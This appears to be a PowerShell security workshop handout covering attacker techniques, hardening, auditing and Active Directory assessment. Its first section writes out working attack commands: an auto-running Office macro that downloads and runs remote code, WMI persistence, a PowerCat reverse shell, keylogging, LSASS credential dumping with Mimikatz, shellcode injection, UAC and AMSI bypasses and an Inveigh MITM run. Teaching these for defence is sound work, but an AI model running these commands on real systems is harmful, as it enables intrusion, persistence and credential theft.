


## 1. Hackers and PowerShell - Power(S)Hell

### Basic Techniques

#### Encoded Commands

```powershell
$payload = {
    Write-Host 'Hello World!'
}

$encodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($payload))

"powershell.exe -EncodedCommand $encodedPayload" | Set-Clipboard
```

#### Running Scripts from Web

```powershell
# PowerShell 2
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1')

# PowerShell 3+ with aliases
iex (iwr 'https://community.chocolatey.org/install.ps1' -UseBasicParsing)
```

#### P/Invoke

- [GetPrivateProfileString MSDN](https://msdn.microsoft.com/en-us/library/windows/desktop/ms724353(v=vs.85).aspx?f=255&MSPPError=-2147217396)
- [GetPrivateProfileString PInvoke.NET](https://www.pinvoke.net/default.aspx/kernel32.GetPrivateProfileString)
- [SysInternals Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)

```powershell
# Create signature
$signature = @'
[DllImport("kernel32.dll")]
public static extern uint GetPrivateProfileString(
    string lpAppName,
    string lpKeyName,
    string lpDefault,
    StringBuilder lpReturnedString,
    uint nSize,
    string lpFileName);
'@

# Compile
Add-Type -MemberDefinition $signature `
         -Name INIFile `
         -Namespace Win32Utils `
         -Using System.Text

# Wrap as PowerShell function
function Get-PrivateProfileString
{
    param(
        [string] $File,
        [string] $Category,
        [string] $Key
    )
    $builder = [System.Text.StringBuilder]::new(1024)
    $result = [Win32Utils.INIFile]::GetPrivateProfileString($category, $key, "", $builder, $builder.Capacity, $file)
    return $builder.ToString() 
}

# Call the function
Get-Content 'C:\Windows\System32\GroupPolicy\gpt.ini'
Get-PrivateProfileString -File 'C:\Windows\System32\GroupPolicy\gpt.ini' `
                         -Category General `
                         -Key Version
```

### Office Macros

#### PowerShell Autorun from Macro
```vb
' Word Compatibility
Sub Auto_Open()
    Dim exec As String
    cmd = "powershell.exe ""Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://bit.ly/e0Mw9w'))"""
    Shell (cmd)
End Sub

' PowerPoint Compatibility
Sub AutoOpen()
    Auto_Open
End Sub

' Excel Compatibility
Sub Workbook_Open()
    Auto_Open
End Sub
```

#### Macro Document Generator
```powershell
# Import the Out-Word cmdlet from the Nishang module
iex(iwr 'https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-Word.ps1')
 
# Create payload
$payload = "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process"

# Generate a Word document
$path = Join-Path (Resolve-Path .) 'Invoice.doc'
Out-Word -Payload $payload -OutputFile $path
```

### WMI Persistence

#### Create

```powershell
$payload = {
    Get-Date >> C:\test.txt
}

$encodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($payload))

$command = "powershell.exe -EncodedCommand $encodedPayload"

$timer = Set-WmiInstance -Class __IntervalTimerInstruction -Arguments @{
    IntervalBetweenEvents = ([UInt32] 10000)
    SkipIfPassed = $False
    TimerId = 'PayloadTrigger'
}

$filter = Set-WmiInstance -Class __EventFilter -Namespace root/subscription -Arguments @{
    EventNamespace = 'root/cimv2'
    Name = 'TimerTrigger'
    Query = "SELECT * FROM __TimerEvent WHERE TimerID = 'PayloadTrigger'"
    QueryLanguage = 'WQL'
}

$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace root/subscription -Arguments @{
    Name = 'ExecuteEvilPowerShell'
    CommandLineTemplate = $command
}

$binding = Set-WmiInstance -Class __FilterToConsumerBinding -Namespace root/subscription -Arguments @{
    Filter = $filter
    Consumer = $consumer
}
```

#### Detect

- [WMI Explorer](https://github.com/vinaypamnani/wmie2)
- [Sysinternals Autoruns](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns)

#### Cleanup

```powershell
$consumer = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'ExecuteEvilPowerShell'"
$filter = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'TimerTrigger'"
$binding = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($consumer.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"
$timer = Get-WmiObject -Namespace root/cimv2 -Class __IntervalTimerInstruction -Filter "TimerId = 'PayloadTrigger'"

Remove-WmiObject -InputObject $binding
Remove-WmiObject -InputObject $consumer
Remove-WmiObject -InputObject $filter
Remove-WmiObject -InputObject $timer
```

### Remote Command Execution

#### PowerShell Remoting

[Running Remote Commands](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands)

```powershell
Invoke-Command -ComputerName dc -ScriptBlock { calc.exe }
```

#### WMI

[Create method of the Win32_Process class](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/create-method-in-class-win32-process)

```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList calc.exe
```

[Defender ASR: Block process creations originating from PSExec and WMI commands](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide#block-process-creations-originating-from-psexec-and-wmi-commands)

#### Reverse TCP Shell with PowerCat

[PowerCat GitHub](https://github.com/besimorhino/powercat)

```powershell
# Load PowerCat
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

# Start listener
powercat -l -p 8000

# Start client
powercat -c 10.0.0.1 -p 8000

# Start client and execute PowerShell commands
powercat -c 10.0.0.1 -p 8000 -ep
```

#### PowerShell dnscat2 Client

[dnscat2 GitHub](https://github.com/lukebaggett/dnscat2-powershell)

### Sample Malicious Actions

#### Clipboard Monitoring

> Works with RDP, too.

```powershell
1..100 | % { Get-Clipboard -Format Text; Start-Sleep -Seconds 3 }
```

#### Naïve Credential Phishing

```powershell
do
{
    $cred = Get-Credential -Message 'Provide credentials to continue...' -UserName $env:USERNAME
} until($null -ne $cred -and $null -ne $cred.Password)

Write-Host ('The password is "{0}"!' -f $cred.GetNetworkCredential().Password)
```

#### Keylogger

[PowerSploit GitHub](https://github.com/PowerShellMafia/PowerSploit)

```powershell
Get-Keystrokes -LogPath keystrokes.txt -Timeout 1 -PassThru
```

#### Audio Recording from Microphone

[PowerSploit GitHub](https://github.com/PowerShellMafia/PowerSploit)

```powershell
Get-MicrophoneAudio -Length 10 -Path audio.wav
```

#### Taking Screenshots

[PowerSploit GitHub](https://github.com/PowerShellMafia/PowerSploit)

```powershell
Enable-WindowsOptionalFeature -FeatureName NetFx3 -Online
Get-TimedScreenshot -Path . -Interval 10 -EndTime 14:00
```

#### Stealing Sensitive Files

[PowerSploit GitHub](https://github.com/PowerShellMafia/PowerSploit)

```powershell
Invoke-NinjaCopy -Path c:\windows\system32\config\system -LocalDestination .\system -Verbose
```

#### LSASS Credential Theft #1

[PowerSploit GitHub](https://github.com/PowerShellMafia/PowerSploit)

```powershell
Invoke-Mimikatz -DumpCreds # -ComputerName PC2
Invoke-Mimikatz -Command 'sekurlsa::krbtgt' -ComputerName PC2
```

#### LSASS Credential Theft #2

[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)

```powershell
Get-Process -Name lsass | Out-Minidump -DumpFilePath .
```

```cmd
mimikatz.exe "sekurlsa::minidump lsass_560.dmp" sekurlsa::logonPasswords quit
```

#### LSASS Credential Theft #3

[PowerMemory](https://github.com/giMini/PowerMemory)

```powershell
.\Reveal-MemoryCredentials.ps1
```

#### Extract WiFi Passwords

[Get-WLANKeys](https://github.com/samratashok/nishang/blob/master/Gather/Get-WLAN-Keys.ps1)

#### Shellcode Invocation

[PowerSploit GitHub](https://github.com/PowerShellMafia/PowerSploit)

```powershell
notepad.exe
$target = Get-Process notepad
Invoke-ShellCode -Force -ProcessID $target.Id
```

#### UAC Bypass

[UACME](https://github.com/hfiref0x/UACME)

```powershell
# No longer Works on Win10 :-(
iex(iwr 'https://raw.githubusercontent.com/samratashok/nishang/master/Escalation/Invoke-PsUACme.ps1')
Invoke-PsUACme -method mmc
```

#### Privilege Escalation

- [PowerSploit GitHub](https://github.com/PowerShellMafia/PowerSploit)
- [PrivescCheck GitHub](https://github.com/itm4n/PrivescCheck)

```powershell
# Returns services with unquoted paths that also have a space in the name
Get-ServiceUnquoted

# Returns services where the current user can write to the service binary path or its config
Get-ModifiableServiceFile

# Returns services the current user can modify
Get-ModifiableService

# Find schtasks with modifiable target files
Get-ModifiableScheduledTaskFile

# Checks for any modifiable binaries/scripts (or their configs) in HKLM autoruns
Get-ModifiableRegistryAutoRun

# Finds potential DLL hijacking opportunities for currently running processes
Find-ProcessDLLHijack
```

#### MITM Attack

```powershell
iex(iwr 'https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1')

Invoke-Inveigh -LLMNR Y -HTTP Y -SMB Y -NBNS Y -StatusOutput Y -ConsoleOutput Y 

Stop-Inveigh
```

#### PowerShell Empire

[PowerShell Empire GitHub](https://github.com/EmpireProject/Empire)

### AMSI Bypass

#### Disable as Admin

Registered providers: `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI`

```powershell
Get-ChildItem -Path 'registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI' -Recurse |
    Where-Object PSChildName -like '{*}' |
    ForEach-Object { Rename-Item -Path $PSItem.PSPath -NewName ($PSItem.PSChildName + '-Disabled' ) }
```

#### Re-Enable as Admin

```powershell
Get-ChildItem -Path 'registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI' -Recurse |
    Where-Object PSChildName -like '*-Disabled' |
    ForEach-Object { Rename-Item -Path $PSItem.PSPath -NewName ($PSItem.PSChildName -replace '-Disabled','') }
```

#### Disable as User

> Note: These methods may be caught by AVs

[AMSI Bypass Methods](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

## 2. Securing PowerShell

### Blocking PowerShell Script Execution
#### PowerShell Execution Policy

```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

Invoke-Expression (New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1')
```

#### Constrained Language Mode

- [Script rules in AppLocker](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/script-rules-in-applocker)
- [Device Guard User Mode Code Integrity (UMCI)](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/select-types-of-rules-to-create)


```powershell
$ExecutionContext.SessionState.LanguageMode

$ExecutionContext.SessionState.LanguageMode = [System.Management.Automation.PSLanguageMode]::ConstrainedLanguage

[System.Console]::WriteLine('Hello')
```

#### PowerShell JEA

- [Just Enough Administration](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview)
- [JEA Toolkit Helper](https://learn.microsoft.com/en-us/archive/blogs/privatecloud/introducing-the-updated-jea-helper-tool)


### Auditing PowerShell Usage

#### Transcript

```powershell
$transcript = Start-Transcript

Get-Process

$transcript.Path
notepad.exe $transcript.Path
```

#### Script Execution and Module Logging

- [Script Tracing and Logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows)
- [Greater Visibility Through PowerShell Logging](https://www.mandiant.com/resources/blog/greater-visibilityt)
- [PowerShell ♥ the Blue Team](https://devblogs.microsoft.com/powershell/powershell-the-blue-team/)


#### PSReadline Command History

```powershell
(Get-PSReadLineOption).HistorySavePath
notepad.exe (Get-PSReadLineOption).HistorySavePath
```

```powershell
Set-PSReadLineOption -HistorySaveStyle SaveNothing
Set-PSReadLineOption -HistorySaveStyle SaveIncrementally
```

#### Remoting Sessions

- [WSMan Remote Shells](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wsmv/95abd276-2074-4c65-9a0c-88e58612b107)
- [Get-WSManInstance Cmdlet](https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/get-wsmaninstance)

```powershell
#region Type Definitions
enum ShellType
{
    Cmd
    PowerShell
    PowerShell32
    PowerShellWorkflow
    ServerManagerWorkflows
    CustomShell
    Other
}

class RemoteShellInfo
{
    [guid] $RemoteShellId
    [string] $Name
    [string] $ResourceUri
    [string] $Owner
    [string] $State
    [ipaddress] $ClientIP
    [cultureinfo] $Locale
    [cultureinfo] $DataLocale
    [string] $CompressionMode
    [string] $InputStreams
    [string] $OutputStreams
    [bool] $ProfileLoaded
    [string] $Encoding
    [string] $BufferMode
    [timespan] $ShellRunTime
    [timespan] $ShellInactivity
    [timespan] $IdleTimeOut
    [timespan] $MaxIdleTimeOut
    [int] $ProcessId
    [int] $ChildProcesses
    [string] $MemoryUsed
    [string] $ComputerName

    [ShellType] GetShellType()
    {
        # Default value:
        [ShellType] $result = [ShellType]::Other

        switch($this.ResourceUri)
        {
            'http://schemas.microsoft.com/powershell/Microsoft.PowerShell' { $result = [ShellType]::PowerShell }
            'http://schemas.microsoft.com/powershell/microsoft.powershell32' { $result = [ShellType]::PowerShell32 }
            'http://schemas.microsoft.com/powershell/microsoft.powershell.workflow' { $result = [ShellType]::PowerShellWorkflow }
            'http://schemas.microsoft.com/wbem/wsman/1/windows/shell/cmd' { $result = [ShellType]::Cmd }
            'http://schemas.microsoft.com/wbem/wsman/1/windows/shell/CustomShell' { $result = [ShellType]::CustomShell }
            'http://schemas.microsoft.com/powershell/microsoft.windows.servermanagerworkflows' { $result = [ShellType]::ServerManagerWorkflows }
        }
        
        return $result
    }

    [String] ToString()
    {
        return $this.Name
    }
}
#endregion Type Definitions

#region Constants
[uint16] $DefaultHttpPort = 5985
[uint16] $DefaultHttpsPort = 5986
#endregion Constants

#region Main Cmdlets
function Get-ShellSession
{
    [OutputType([RemoteShellInfo])]
    Param(
        [Parameter(ValueFromPipeline = $true)]
        [ValidateNotNull()]
        [Alias('Computer', 'Server', 'cn', 's', 'c')]
        [string[]] $ComputerName = @('localhost'),
        
        [Alias('UseTLS')]
        [switch] $UseSSL,
        
        [ValidateNotNull()]
        [Nullable[uint16]] $Port
    )

    Begin
    {
        if($null -eq $Port)
        {
            if($UseSSL.IsPresent)
            {
                $Port = $DefaultHttpsPort
            }
            else
            {
                $Port = $DefaultHttpPort
            }
        }
    }

    Process
    {
        try
        {
            foreach($computer in $ComputerName)
            {
                try
                {
                    Get-WSManInstance -ComputerName $computer -Port $Port -UseSSL:$UseSSL -ResourceURI shell -Enumerate -ErrorAction Stop | ForEach-Object {
                        Write-Output -InputObject ([RemoteShellInfo]@{
                            ComputerName = $computer
                            RemoteShellId = $PSItem.ShellId
                            Name = $PSItem.Name
                            ResourceUri = $PSItem.ResourceUri
                            Owner = $PSItem.Owner
                            ClientIP = $PSItem.ClientIP
                            Locale = $PSItem.Locale
                            DataLocale = $PSItem.DataLocale
                            CompressionMode = $PSItem.CompressionMode
                            InputStreams = $PSItem.InputStreams
                            OutputStreams = $PSItem.OutputStreams
                            MaxIdleTimeOut = ConvertFrom-XmlDuration -Duration $PSItem.MaxIdleTimeOut 
                            IdleTimeOut = ConvertFrom-XmlDuration -Duration $PSItem.IdleTimeOut 
                            ProfileLoaded = $PSItem.ProfileLoaded -eq 'Yes'
                            Encoding = $PSItem.Encoding
                            BufferMode = $PSItem.BufferMode
                            State = $PSItem.State
                            ShellInactivity = ConvertFrom-XmlDuration -Duration $PSItem.ShellInactivity 
                            ShellRunTime = ConvertFrom-XmlDuration -Duration $PSItem.ShellRunTime
                            ProcessId = $PSItem.ProcessId
                            ChildProcesses = $PSItem.ChildProcesses
                            MemoryUsed = $PSItem.MemoryUsed
                        })
                    }
                }
                catch [System.Runtime.InteropServices.COMException]
                {
                    # Sample COMException message thrown by Get-WSManInstance:
                    # The WinRM client cannot process the request because the server name cannot be resolved.

                    # We can continue with another computer
                    Write-Error -ErrorRecord $PSItem
                }
            }
        }
        catch
        {
            # An unknown error has occured, so terminate execution.
            Write-Error -ErrorRecord $PSItem
        }
    }
}

function Remove-ShellSession
{
    [OutputType('None')]
    [CmdletBinding(DefaultParameterSetName = 'ByShellId')]
    Param(
        [Parameter(Mandatory = $true, ValueFromPipeline = $true, ValueFromPipelineByPropertyName = $true, ParameterSetName = 'ByShellId')]
        [guid] $RemoteShellId,

        [Parameter(ValueFromPipelineByPropertyName = $true, ParameterSetName = 'ByShellId')]
        [ValidateNotNullOrEmpty()]
        [Alias('Computer', 'Server', 'cn', 's', 'c')]
        [string] $ComputerName = 'localhost',
        
        [Parameter(Mandatory = $true, ValueFromPipelineByPropertyName = $true, ParameterSetName = 'ByInputObject')]
        [RemoteShellInfo] $InputObject,
        
        [Alias('UseTLS')]
        [switch] $UseSSL,
        
        [ValidateNotNull()]
        [Nullable[uint16]] $Port
    )

    Begin
    {
        if($null -eq $Port)
        {
            if($UseSSL.IsPresent)
            {
                $Port = $DefaultHttpsPort
            }
            else
            {
                $Port = $DefaultHttpPort
            }
        }
    }

    Process
    {
        try {
            switch($PSCmdlet.ParameterSetName)
            {
                'ByShellId' {
                    Remove-WSManInstance -ComputerName $ComputerName -UseSSL:$UseSSL -Port $Port -ResourceURI shell -SelectorSet @{ ShellID = $RemoteShellId } -ErrorAction Stop
                }
    
                'ByInputObject' {
                    Remove-WSManInstance -ComputerName $InputObject.ComputerName -UseSSL:$UseSSL -Port $Port -ResourceURI shell -SelectorSet @{ ShellID = $InputObject.RemoteShellId } -ErrorAction Stop
                }
            }
        }
        catch {
            Write-Error -ErrorRecord $PSItem
        }
    }
}
#endregion Cmdlets

#region Helper Functions
<#
.SYNOPSIS
Converts a string to a TimeSpan equivalent.
.PARAMETER Duration
The string to convert. The string format must conform to the W3C XML Schema Part 2: Datatypes recommendation for duration.
.EXAMPLE
ConvertFrom-XmlDuration -Duration 'P0DT0H2M58S'
Days              : 0
Hours             : 0
Minutes           : 2
Seconds           : 58
Milliseconds      : 0
Ticks             : 1780000000
TotalDays         : 0.00206018518518519
TotalHours        : 0.0494444444444444
TotalMinutes      : 2.96666666666667
TotalSeconds      : 178
TotalMilliseconds : 178000
#>
function ConvertFrom-XmlDuration
{
    [CmdletBinding()]
    [OutputType([TimeSpan])]
    Param(
        [Parameter(Mandatory = $false, ValueFromPipeline = $true)]
        [string] $Duration
    )
    
    Process
    {
        try
        {
            if([string]::IsNullOrEmpty($Duration))
            {
                return [timespan]::Zero
            }
            else
            {
                return [System.Xml.XmlConvert]::ToTimeSpan($Duration)    
            }
        }
        catch [System.FormatException]
        {
            Write-Error -ErrorRecord $PSItem
        }
    }
}
#endregion Helper Functions
```

#### Microsoft Defender for Endpoint





### Script Signing

```powershell
$cer = Get-ChildItem -Path Cert:\CurrentUser\My -CodeSigningCert |
    Sort-Object -Property NotAfter |
    Select-Object -First 1

Get-ChildItem -Path .\ScriptsToSign -File -Include @('*.ps1','*.psd1','*.psm1') -Recurse |
    Get-AuthenticodeSignature |
    Where-Object Status -ne Valid |
    Select-Object -ExpandProperty Path |
    Set-AuthenticodeSignature -Certificate $cer -TimestampServer http://timestamp.digicert.com -HashAlgorithm SHA256 -IncludeChain signer

Get-AuthenticodeSignature -FilePath script.ps1
```

### Run as Administrator

```cmd
@ECHO OFF
REM Runs the PowerShell script that has the same name as this batch file.
powershell.exe -ExecutionPolicy Bypass -NoProfile -NoLogo -File "%~dpn0.ps1"
```

### Unattended Scripts

#### Scheduled Tasks

##### Task Action

```powershell
<#
.SYNOPSIS
Creates a backup of all GPOs in the C:\GPOBackup directory.

.DESCRIPTION
Author: Michael Grafnetter
Version: 1.0

#>

#requires -Version 5 -Modules GroupPolicy -RunAsAdministrator

# Create the target directory if it does not exist
[string] $backupPath = Join-Path -Path $env:SystemDrive -ChildPath GPOBackup
New-Item -ItemType Directory -Path $backupPath -Force | Out-Null

# Perform the backup
Backup-GPO -Path $backupPath -All | Out-Null
```

```cmd
%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File C:\Scripts\Invoke-GPOBackup.ps1
```

> Permissions for script and output dirs!

##### Register Task

```powershell
<#
.SYNOPSIS
Creates a task that creates daily GPO backups.

#>

#requires -Version 5 -Modules ScheduledTasks -RunAsAdministrator

[datetime] $midnight = Get-Date -Hour 0 -Minute 0 -Second 0 -Millisecond 0
[ciminstance] $trigger = New-ScheduledTaskTrigger -Daily -At $midnight
[ciminstance] $system = New-ScheduledTaskPrincipal -UserId 'System' -RunLevel Highest
[string] $psPath = Get-Command -Name 'powershell.exe' -CommandType Application | Select-Object -ExpandProperty Source
[string] $scriptPath = Join-Path -Path $PSScriptRoot -ChildPath 'Invoke-GPOBackup.ps1'
[string] $psParams = '-ExecutionPolicy Bypass -NonInteractive -NoProfile -NoLogo -File "{0}"' -f $scriptPath
[ciminstance] $action = New-ScheduledTaskAction -Execute $psPath -Argument $psParams
Register-ScheduledTask -TaskName 'Backup All GPOs' `
                       -Trigger $trigger `
                       -Action $action `
                       -Principal $system `
                       -Force
```

##### Unregister Task

```powershell
<#
.SYNOPSIS
Removes the task that creates daily GPO backups.

#>

#requires -Version 5 -Modules ScheduledTasks -RunAsAdministrator

Unregister-ScheduledTask -TaskName 'Backup All GPOs' -Confirm:$false -Verbose
```
#### Managed Service Accounts

```cmd
PsExec.exe -i -u svc_ad_audit$ -p ~ powershell.exe
```

#### Script Credentials

```powershell
Get-Credential | Export-CliXml -Path cred.xml
```

```powershell
Import-CliXml -Path cred.xml
```

#### Azure AD Credentials

```powershell
# Interactive
Connect-MgGraph -Scopes "User.Read.All","Group.Read.All"
Get-MgUser

# Non-interactive
 Connect-MgGraph -ClientID c3f7da84-2712-43e5-b5dd-70f3cd0e4bbd -TenantId 6c6e13e5-6627-445a-bcd6-db1e297f30c4 -CertificateName AADScriptCert
```

[Use app-only authentication with the Microsoft Graph PowerShell SDK](https://learn.microsoft.com/en-us/powershell/microsoftgraph/app-only?view=graph-powershell-1.0&tabs=azure-portal)

## 3. Active Directory Security Assessment

### PowerShell-Based Assessment Tools

#### Purple Knight

- [Purple Knight Web](https://www.purple-knight.com/)
- [Security Indicators](https://www.purple-knight.com/security-indicators/)


#### AD ACL Scanner

[AD ACL Scanner GitHub](https://github.com/canix1/ADACLScanner)


#### PowerView
- [PowerView GitHub](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [PowerView Intro](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview)

### Operating System Versions

> TBD

### Kerberoasting

> TBD

### SID History

> TBD

### Shadow Credentials

> TBD

### Password Quality

> TBD

### Event Logs


### Desired State Configuration (DSC)

#### DSC Intro

- [NetworkingDsc](https://www.powershellgallery.com/packages/NetworkingDsc)
- [LAPS](https://www.microsoft.com/en-us/download/details.aspx?id=46899)

```powershell
Service Spooler
{
        Name = "Spooler"
        State = "Stopped"
}

Package LAPS
{
            Name  = 'Local Administrator Password Solution'
            Path = 'https://download.microsoft.com/download/C/7/A/C7AAD914-A8A6-4904-88A1-29E657445D03/LAPS.x64.msi'
            ProductId = 'EA8CB806-C109-4700-96B4-F1F268E5036C'
}
```

#### Security Baseline Tooling
- [SecurityPolicyDsc](https://www.powershellgallery.com/packages/SecurityPolicyDsc/)
- [AuditPolicyDsc](https://www.powershellgallery.com/packages/AuditPolicyDsc)
- [BaselineManagement](https://www.powershellgallery.com/packages/BaselineManagement)
- [Microsoft Security Compliance Manager 4.0](https://www.microsoft.com/en-us/download/details.aspx?id=53353)
- [Microsoft Security Compliance Toolkit 1.0 ](https://www.microsoft.com/en-us/download/details.aspx?id=55319)
- [Quickstart: Convert Group Policy into DSC](https://learn.microsoft.com/en-us/powershell/dsc/quickstarts/gpo-quickstart)

#### Center for Internet Security (CIS) Benchmarks
- [CIS Benchmarks](https://www.cisecurity.org/benchmark/microsoft_windows_server)
- [CIS DSC](https://github.com/techservicesillinois/SecOps-Powershell-CISDSC)

#### Security Technical Implementation Guides (STIGs)

- [STIGs](https://public.cyber.mil/stigs/)
- [Windows Server 2019 STIG](https://www.stigviewer.com/stig/windows_server_2019/)
- [PowerSTIG](https://github.com/microsoft/PowerStig)

### Pester

#### Tests #1

```powershell
<#
.SYNOPSIS
Invokes DC tests using Pester.

#>

#Requires -Version 5 -Modules @{ ModuleName = 'Pester'; ModuleVersion = '5.0' }

Describe 'Domain Controllers' {
    Context 'Print Spooler Service' {
        BeforeAll {
            Add-Type -AssemblyName System.ServiceProcess
        }
        It 'Print Spooler should be disabled' {
            Get-Service -Name Spooler -ComputerName dc -ErrorAction Stop |
                Select-Object -ExpandProperty StartType |
                Should -Be ([System.ServiceProcess.ServiceStartMode]::Disabled)
        }

        It 'Print Spooler should be stopped' {
            Get-Service -Name Spooler -ComputerName dc -ErrorAction Stop |
                Select-Object -ExpandProperty Status |
                Should -Be ([System.ServiceProcess.ServiceControllerStatus]::Stopped)
        }
    }

    Context 'Availability' {
        BeforeDiscovery {
            [hashtable[]] $ports = @{ Port = 389; Service = 'LDAP' },
                                   @{ Port = 636; Service = 'LDAPS' },
                                   @{ Port = 445; Service = 'SMB' }
        }

        It 'Server DC should be pingable' {
            Test-Connection -ComputerName dc -Quiet -Count 1 | Should -BeTrue
        }

        It '<Service> (TCP port <Port>) should be reachable on DC' -TestCases $ports {
            param([int] $Port, [string] $Service)

            Test-NetConnection -Port $Port -ComputerName DC |
                Select-Object -ExpandProperty TcpTestSucceeded |
                Should -BeTrue
        }
    }
}
```

#### Tests #2

```powershell
<#
.SYNOPSIS
Invokes Group Membership tests using Pester.

#>

#Requires -Version 5 -Modules ActiveDirectory,@{ ModuleName = 'Pester'; ModuleVersion = '5.0' }

Describe 'Group Membership' {
    Context 'Empty Groups' {
        BeforeDiscovery {
            [string[]] $groupNames = 'Schema Admins',
                                     'Print Operators',
                                     'Remote Desktop Users',
                                     'Account Operators'
            [hashtable[]] $groups = $groupNames | ForEach-Object { @{ Group = $PSItem } }
        }

        It 'The "<Group>" group should be empty' -TestCases $groups {
            param([string] $Group)

            Get-ADGroupMember -Identity $Group -ErrorAction Stop | 
                Should -HaveCount 0
        }
    }
}
```

#### Test Runner

```powershell
<#
.SYNOPSIS
Invokes all Pester tests and generates a HTML report.

#>

#Requires -Version 5 -Modules @{ ModuleName = 'Pester'; ModuleVersion = '5.0' }

$htmlHead = @'
<style type="text/css">
    table, th, td {
          border: 1px solid;
          border-spacing: 0px;
    }
</style>
<script
    src="https://code.jquery.com/jquery-3.6.0.slim.min.js"
	integrity="sha256-u7e5khyithlIdTpu22PHhENmPcRdFiHRjhAuHcs05RI="
	crossorigin="anonymous">
</script>
<script>
// Colorize table rows based on Success/Failure using jQuery (does not work in MSIE).
$(document).ready(function() {
    $("td").each(function(){
        if($(this).text() == "Passed"){
            $(this).parent().css("background-color", "#77dd77");
        } else if($(this).text() == "Failed"){
            $(this).parent().css("background-color", "#ff6961");
        } else if($(this).text() == "Inconclusive" || $(this).text() == "Skipped"){
            $(this).parent().css("background-color", "#fdfd96");
        }
    })
});
</script>
<title>Services</title>
'@

$resultsFile = Join-Path -Path $PSScriptRoot -ChildPath 'results.html'

Invoke-Pester -Path $PSScriptRoot -PassThru |
    Select-Object -ExpandProperty Tests | 
    Select-Object -Property @{ n = 'Category'; e = { $PSItem.Path[0] }},
                            @{ n = 'Context';  e = { $PSItem.Path[1] }},
                            ExpandedName,
                            Result,
                            @{ n = 'Error'; e = { $PSItem.ErrorRecord.DisplayErrorMessage } } |
    ConvertTo-Html -PreContent '<h1>Test Results</h1>' -Head $htmlHead |
    Out-File -FilePath $resultsFile -Encoding utf8 -Force
```